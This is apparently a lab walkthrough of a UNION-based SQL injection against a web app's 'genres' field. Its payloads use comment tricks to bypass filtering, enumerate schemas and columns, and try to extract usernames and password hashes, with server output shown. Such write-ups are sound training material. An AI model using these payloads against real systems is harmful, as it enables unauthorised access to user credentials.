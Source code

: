 ```
		- We know a working injection from earlier so now we will try to retrieve some data using UNION injection
			- In order for UNION to work it needs find out how many columns
				- This can be done with the `ORDER BY <Number>` command
					- When the command does not response, we are asking for too many columns
					```bash
"genres":"')/**/ORDER/**/BY/**/5#"
```
					- The command returns with an empty data value whereas if we enter 6 it responds with server error, implying there are 5 columns.
				- Next our basic exploit will be in one of the 5 entries, i.e, we can input our code in any value from 1 to 5 in the following command:
					```bash
"genres":"')/**/UNION/**/SELECT/**/1,2,3,4,5#"}
```
			- Checking with `@@version`
				```bash
"genres":"')/**/UNION/**/SELECT/**/1,(SELECT/**/@@version),3,4,5#"}

---OUTPUT---
{"status":"success","data":[{"id":1,"file":"10.6.12-MariaDB-0ubuntu0.22.04.1","genre":"3","created_at":"1970-01-01T00:00:04.000000Z","updated_at":"1970-01-01T00:00:05.000000Z","url":"\/storage\/10.6.12-MariaDB-0ubuntu0.22.04.1"}]}
```
				- MariaDB 10.6.12
				- Ubuntu 22.04.1
			- Next we try to get information about the tables:
				- We can get more information via the sql page (just like in Monitored box)
					- https://dev.mysql.com/doc/refman/8.4/en/information-schema-table-reference.html
						- In here we find SCHEMATA > SCHEMA_NAME for database names
			- Now we use group_concat like in Monitored box to enumerate and find database name			
				```bash
"genres":"')/**/UNION/**/SELECT/**/1,(SELECT/**/group_concat(SCHEMA_NAME)/**/from/**/information_schema.schemata),3,4,5#"

---OUTPUT---
"file":"information_schema,intentions"
```
		- Next we need to get table names and remaining data (if theres no word limit on the output),
			- We can navigate to columns in sql website
				- https://dev.mysql.com/doc/refman/8.4/en/information-schema-columns-table.html
					- TABLE_SCHEMA (database name), TABLE_NAME (table name), and COLUMN_NAME (column name) are of interest
						```bash
"genres":"')/**/UNION/**/SELECT/**/1,(SELECT/**/GROUP_CONCAT(TABLE_NAME,':',COLUMN_NAME)/**/FROM/**/INFORMATION_SCHEMA.COLUMNS/**/WHERE/**/TABLE_SCHEMA/**/like/**/'intentions'),3,4,5#"

---OUTPUT---
"file":"gallery_images:id,gallery_images:file,gallery_images:genre,gallery_images:created_at,gallery_images:updated_at,personal_access_tokens:id,personal_access_tokens:tokenable_type,personal_access_tokens:tokenable_id,personal_access_tokens:name,personal_access_tokens:token,personal_access_tokens:abilities,personal_access_tokens:last_used_at,personal_access_tokens:created_at,personal_access_tokens:updated_at,migrations:id,migrations:migration,migrations:batch,users:id,users:name,users:email,users:password,users:created_at,users:updated_at,users:admin,users:genres",
```
					- We can see :
						- Personal Access Tokens : token, tokenable_id, tokenable_type. id, name, last_used
						- users: name, password, admin
		- Next we try to grab the users, admin and password and see if it works, if not we might also need the token (i'm guessing we will)
			```bash
"')/**/UNION/**/SELECT/**/1,(SELECT/**/GROUP_CONCAT(admin,':',name,':',password,':',email)/**/FROM/**/users),3,4,5#"
